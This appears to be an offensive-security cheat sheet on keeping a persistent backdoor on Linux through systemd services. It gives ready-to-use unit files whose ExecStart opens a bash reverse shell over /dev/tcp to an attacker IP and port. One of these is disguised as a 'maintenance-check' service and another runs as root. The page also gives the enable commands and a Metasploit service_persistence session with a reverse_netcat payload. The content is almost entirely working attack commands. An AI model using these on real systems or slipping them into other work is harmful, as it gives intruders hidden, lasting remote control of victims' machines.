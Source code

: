 # Service Daemon Backdoor

## 01 - Unix Shell

`$ cd /etc/systemd/system/`

`$ cat maintenance-check.service`

---

```
[Unit]
Description=Backdoor service

[Service]
Type=simple
ExecStart=/bin/bash -c 'bash -i >&/dev/tcp/<IP>/<PORT> 0>&1'
Restart=always
RestartSec=3

[Install]
WantedBy=multi-user.target
```

- Reload all daemon services

```
$ sudo systemctl daemon-reload

$ sudo systemctl enable maintenance-check.service
```

`$ cat rooted-backdoor.service`

---

```
[Unit]
Description=Backdoor service

[Service]
Type=simple
User=root
ExecStart=/bin/bash -c 'bash -i >&/dev/tcp/<IP>/<PORT> 0>&1'
Restart=always
RestartSec=3

[Install]
WantedBy=multi-user.target
```

```
$ sudo systemctl daemon-reload

$ sudo systemctl enable rooted-backdoor.service
```

## 02 - Metasploit

```
msf > use exploit/linux/local/service_persistence

msf exploit(linux/local/service_persistence) > options

Module options (exploit/linux/local/service_persistence):

   Name        Current Setting  Required  Description
   ----        ---------------  --------  -----------
   SERVICE                      no        Name of service to create
   SESSION                      yes       The session to run this module on
   SHELLPATH   /usr/local/bin   yes       Writable path to put our shell
   SHELL_NAME                   no        Name of shell file to write


Payload options (cmd/unix/reverse_netcat):

   Name   Current Setting  Required  Description
   ----   ---------------  --------  -----------
   LHOST                   yes       The listen address (an interface may be specified)
   LPORT  4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   Auto


msf exploit(linux/local/service_persistence) > set shellpath </usr/local/bin | /usr/bin>

msf exploit(linux/local/service_persistence) > set service <service_name>

msf exploit(linux/local/service_persistence) > set shell_name <program_name>

msf exploit(linux/local/service_persistence) > set lhost <IP>

msf exploit(linux/local/service_persistence) > set lport <PORT>

msf exploit(linux/local/service_persistence) > set session <session_id>

msf exploit(linux/local/service_persistence) > run
```

---
## References

- [Linux Backdoors and Where to Find Them](https://fahmifj.github.io/blog/linux-backdoors-and-where-to-find-them/)